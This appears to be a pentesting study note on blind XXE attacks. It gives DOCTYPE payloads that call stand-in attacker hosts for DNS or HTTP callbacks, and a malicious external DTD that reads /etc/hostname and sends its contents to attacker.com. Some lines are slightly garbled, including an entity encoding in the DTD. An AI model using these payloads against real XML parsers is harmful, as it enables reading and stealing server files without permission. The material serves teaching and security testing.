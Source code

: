 ## Blind XXE

In many case, XXE vulnerabilities are blind, application does not return the values of any defined external entites in its response, direct retrieval of server-side files is not possible.

This involve of using webhook or dnslogs, feel free to use the following sites or use burp collaborator instead

{% embed url="https://webhook.site/#!/" %}

{% embed url="http://dnslog.cn/" %}

#### Blind XXE with DNS logs

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Similar to SSRF attacks, point to external entity.

### Blind XXE with XML parameter entities

Some of the XML parser might block regular entities or hardening. We can use parameter entites instead

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

### Blind XXE with data exfiltrate

To exfiltrate data out of band, it will be a little bit more works to do. The attacker have to host a malicious DTD on their server, and then invoke the external DTD within the XXE payload

E.g. of malicious DTD to extract the contents of the `/etc/hostname`&#x20;

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#25; exfiltrate SYSTEM 'http://attacker.com/?file=%file;'>">
%eval;
%exfiltrate;
```

First line is to store the target files into the entity `file`

Second line is to construct a dynamic entitiy that containing a dynamic declaration of another XML parameter entity called exfiltrate.

&#x20;he exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.&#x20;

Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.&#x20;

Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

In the XXE, we just perform normally to load the external DTD with parameter entites

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>XML request</p></figcaption></figure>
